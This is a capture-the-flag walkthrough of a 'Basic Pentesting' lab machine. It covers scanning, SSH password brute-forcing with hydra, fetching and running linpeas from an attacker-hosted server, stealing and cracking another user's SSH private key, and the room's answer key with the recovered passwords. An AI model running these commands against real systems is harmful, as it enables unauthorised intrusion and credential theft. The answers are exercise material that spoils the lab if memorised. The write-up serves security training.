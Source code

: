 # Basic Pentesting 

IP address through my machine is `10.10.238.74`

## Enumeration and Scanning

`ping 10.10.238.74` we can see that the system is alive

Doing Nmap scan for open ports `nmap -sC -sV 10.10.238.74`

![image](https://github.com/user-attachments/assets/44512de5-b865-446f-a147-7dacf24ba242)

Open Ports are 22, 80, 139, 445, 8009 and 8080 

As the port 80 is open meaning there is a website now lets check the website

![image](https://github.com/user-attachments/assets/b8f5689d-8029-452e-a8a7-1f692fa500d2)

![image](https://github.com/user-attachments/assets/aea1aaa5-1ee0-4452-8774-903d186e7901)

The page source says to check the dev note section.

If we try `10.10.238.74/dev` we get the version of the service and name.

![image](https://github.com/user-attachments/assets/02fdf0b6-b6e8-46a8-810c-d728ae1a68aa)

As we don’t know how many paths are there so we will find that through a tool gobuster.

`gobuster dir -u http://10.10.238.74/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![image](https://github.com/user-attachments/assets/70e33c34-5273-4206-bdb7-6624add2d356)

In the development path we see files

![image](https://github.com/user-attachments/assets/5c86ba6c-4004-4fe2-bef4-e272115ccfb7)

![image](https://github.com/user-attachments/assets/dfecb44f-2ed2-435f-9882-0ccc4985257e)

![image](https://github.com/user-attachments/assets/58f5a305-2ce5-4bdf-af65-a6146a637c8b)

## Exploitation

From the dev notes we can see that it uses weak password which can be a vulnerability and can be accessed through bruteforcing user and passwords.

Finding the users in this system `enum4linux -a 10.10.238.74`

![image](https://github.com/user-attachments/assets/30407462-2534-47e0-9c78-db15ad016373)

Now bruteforcing the password through hydra tool `hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.238.74`

![image](https://github.com/user-attachments/assets/33b4c677-6144-4a17-919a-d1e9255c5381)

Now connecting through jan login `ssh jan@10.10.238.74`

We can easily move to the kay login to by the home directory but we can see from the `sudo ls` command, there is usually no permission to access the important files other than the root.

![image](https://github.com/user-attachments/assets/7802cfd2-0a58-44d0-a324-840328781ebd)

## Privilege Escalation

LinEnum and LinPeas: These are tools for local privilege escalation enumeration on Linux. They scan the system for potential misconfigurations or vulnerabilities that could be used to elevate privileges. 

Start a Python HTTP server to transfer scripts from your local machine to the target: `python3 -m http.server --bind <your-tun0-address> 8000`

I am using `linpeas.sh` for privilege escalation

We will download the `linpeas.sh` file in the jan system so we need to move in the directory that has write access usually /home or /tmp.

`cd /tmp`

`wget http://<your-tun0-address>:8000/linpeas.sh`

Make the script executable and run it.

`chmod +x linpeas.sh`

`./linpeas.sh`

![image](https://github.com/user-attachments/assets/7cee61fd-20b9-404a-8f1b-b664e27b9264)

As we can easily move to the kay folder without even knowing the password, move to the folder containing the id_rsa

`cd /home/kay/.ssh`

Copy the id_rsa and create a file named id_rsa in your local machine through `nano`. Paste the contents of the id_rsa and saved it.

Give appropriate permissions: `chmod 600 id_rsa`

John is a password-cracking tool designed to detect weak passwords and brute-force password hashes. First, convert the id_rsa file using ssh2john: `ssh2john id_rsa > john-pass`

Then use john the ripper to crack the password `john --wordlist=/usr/share/wordlists/rockyou.txt john-pass`

Password is beeswax

![image](https://github.com/user-attachments/assets/688a1c45-f263-440f-869d-13ec742abb53)

Now we have the password and the id_rsa, we can ssh login to kay to get the final password `ssh -i id_rsa kay@10.10.238.74`

Cat the contents of the `pass.bak` and we have the final password

![image](https://github.com/user-attachments/assets/f831b824-5337-4426-93c6-e41797d1d6a1)

## Answer the questions below

1. What is the name of the hidden directory on the web server(enter name without /)?

development

2. What is the username?

jan

3. What is the password?

armando

4. What service do you use to access the server(answer in abbreviation in all caps)?

SSH

5. What is the name of the other user you found(all lower case)?

kay

6. What is the final password you obtain?

hereareallystringpasswordthatfollowsthepasswordpolicy$$
